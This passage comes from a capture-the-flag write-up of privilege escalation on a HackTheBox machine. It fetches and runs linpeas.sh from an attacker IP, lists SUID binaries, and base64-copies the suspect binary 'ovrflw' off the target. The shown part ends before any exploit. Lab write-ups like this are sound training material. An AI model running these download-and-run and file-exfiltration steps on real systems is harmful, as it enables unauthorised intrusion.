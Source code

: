 # Privilege Escalation

Now, let’s use [LinPeas](https://github.com/carlospolop/PEASS-ng/releases/download/20220417/linpeas.sh) to help us identify the possible vulnerabilities.

```bash
$ cd /tmp
$ wget http://10.10.14.11/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh 
...
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
...
-rwsr-sr-x 1 libuuid libuuid 18K Nov 24  2016 /usr/sbin/uuidd
-rwsr-xr-x 1 root root 7.3K Apr 21  2017 /usr/local/bin/ovrflw (Unknown SUID binary)
...
```

##### Alternate way to find files with SUID bit set

```bash
$ find / -perm -4000 2>/dev/null
...
/usr/local/bin/ovrflw

$ find / -perm /4000 2>/dev/null
...
/usr/local/bin/ovrflw
```

```bash
$ ls /usr/local/bin 
ovrflw

$ file ovrflw
ovrflw: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
```

It seems like an executable file. Let’s transfer the file to our machine by encoding the file with `base64` and then decode it back on our local machine.

```bash
$ cat ovrflw | base64 -w0
f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAgIMECDQAAABcEQAAAAAAADQAIAAJACgAHgAbAAYAA...

- Local machine - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# mousepad encoded.txt                 
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# cat encoded.txt | base64 -d > ovrflw  
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# file ovrflw        
ovrflw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=004cdf754281f7f7a05452ea6eaf1ee9014f07da, not stripped
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# chmod +x ovrflw                                     
                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/October]
└─# ./ovrflw         
```